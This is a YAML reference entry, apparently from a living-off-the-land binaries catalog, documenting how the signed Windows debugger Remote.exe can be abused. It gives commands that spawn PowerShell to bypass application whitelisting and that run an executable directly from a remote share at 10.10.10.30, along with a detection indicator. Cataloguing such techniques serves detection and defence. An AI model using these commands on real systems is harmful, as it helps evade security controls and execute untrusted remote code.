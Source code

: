 ```yaml
---
Name: Remote.exe
Description: Debugging tool included with Windows Debugging Tools
Author: mr.d0x
Created: 1/6/2021
Commands:
  - Command: Remote.exe /s "powershell.exe" anythinghere
    Description: Spawns powershell as a child process of remote.exe
    Usecase: Executes a process under a trusted Microsoft signed binary
    Category: AWL Bypass
    Privileges: User
    MitreID:
    MitreLink:
    OperatingSystem:
  - Command: Remote.exe /s "powershell.exe" anythinghere
    Description: Spawns powershell as a child process of remote.exe
    Usecase: Executes a process under a trusted Microsoft signed binary
    Category: Execute
    Privileges: User
    MitreID:
    MitreLink:
    OperatingSystem:
  - Command: Remote.exe /s "\\10.10.10.30\binaries\file.exe" anythinghere
    Description: Run a remote file
    Usecase: Executing a remote binary without saving file to disk
    Category: Execute
    Privileges: User
    MitreID:
    MitreLink:
    OperatingSystem:
Full_Path:
  - Path: C:\Program Files (x86)\Windows Kits\10\Debuggers\x64\remote.exe
  - Path: C:\Program Files (x86)\Windows Kits\10\Debuggers\x86\remote.exe
Code_Sample:
  - Code:
Detection:
  - IOC: remote.exe spawned
Resources:
  - Link: https://blog.thecybersecuritytutor.com/Exeuction-AWL-Bypass-Remote-exe-LOLBin/
Acknowledgement:
  - Person: mr.d0x
    Handle: "@mrd0x"
---
```

